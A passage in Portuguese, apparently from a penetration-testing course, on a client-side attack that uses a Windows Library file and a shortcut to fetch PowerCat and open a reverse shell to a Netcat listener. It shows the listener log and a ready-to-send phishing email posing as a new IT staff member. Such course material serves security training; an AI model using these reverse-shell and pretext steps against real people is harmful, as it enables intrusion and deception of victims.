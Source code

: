 Em nossa máquina Kali, vamos iniciar um servidor web Python3 na porta 8000, onde **powercat.ps1** está localizado, e iniciar um ouvinte Netcat na porta 4444.

Em vez de usar um servidor web Python3 para servir o Powercat, também poderíamos hospedá-lo no compartilhamento WebDAV. No entanto, como nosso compartilhamento WebDAV é gravável, o AV e outras soluções de segurança poderiam remover ou colocar em quarentena nossa carga útil. Se configurarmos o compartilhamento WebDAV como somente leitura, perderemos um ótimo método de transferência de arquivos de sistemas de destino. Ao longo deste curso, usaremos um servidor web Python3 para servir nossa carga útil para ataques utilizando arquivos da Biblioteca do Windows.

Para confirmar que o download cradle e o shell reverso do PowerCat funcionam, vamos clicar duas vezes no arquivo de atalho na área de trabalho. Após confirmar que queremos executar o aplicativo na janela que aparece, o Netcat listener deve receber um shell reverso.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

> Listagem 19 - Conexão de shell reversa bem-sucedida por meio do nosso arquivo de atalho

Para concluir esta seção, vamos obter um shell reverso da máquina _HR137 em_ **192.168.50.195** . Para este exemplo, forneceremos o arquivo de biblioteca do Windows que criamos para uma vítima simulada com um pretexto. Nosso objetivo é convencer a vítima a clicar duas vezes no atalho após incorporar o compartilhamento WebDAV por meio do arquivo de biblioteca do Windows preparado.

O pretexto é um aspecto importante desse ataque do lado do cliente. Nesse caso, poderíamos dizer ao alvo que somos um novo membro da equipe de TI e precisamos configurar todos os sistemas do cliente para a nova plataforma de gerenciamento. Também diremos a eles que incluímos um programa de configuração amigável. Um exemplo de e-mail para uso em uma avaliação real é mostrado abaixo.

```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```

> Listagem 20 - Exemplo de conteúdo de e-mail

Agora, vamos copiar **automatic_configuration.lnk** e **config.Library-ms** para nosso diretório WebDAV em nossa máquina Kali. Por conveniência, podemos usar o arquivo de biblioteca **config** para copiar os arquivos para o diretório. Em uma avaliação normal, provavelmente enviaríamos o arquivo de biblioteca por e-mail, mas para este exemplo, usaremos o compartilhamento SMB **\\192.168.50.195\share** para simular a etapa de entrega.
